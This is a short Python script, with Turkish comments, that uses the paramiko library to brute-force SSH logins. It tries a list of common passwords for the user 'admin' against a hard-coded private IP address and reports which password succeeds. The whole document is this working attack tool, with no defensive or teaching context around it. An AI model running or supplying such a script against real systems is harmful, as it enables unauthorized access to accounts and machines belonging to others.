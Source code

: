import paramiko

# Hedef IP ve port bilgisi
target_ip = "192.168.1.100"
target_port = 22
username = "admin"
passwords = ["123456", "password", "admin123", "letmein"]

# SSH ile bağlanma ve şifreyi test etme
def brute_force_ssh(target_ip, target_port, username, passwords):
    for password in passwords:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(target_ip, port=target_port, username=username, password=password)
            print(f"Başarılı giriş! Şifre: {password}")
            ssh.close()
            break
        except:
            print(f"Başarısız giriş! Şifre: {password}")
            continue

brute_force_ssh(target_ip, target_port, username, passwords)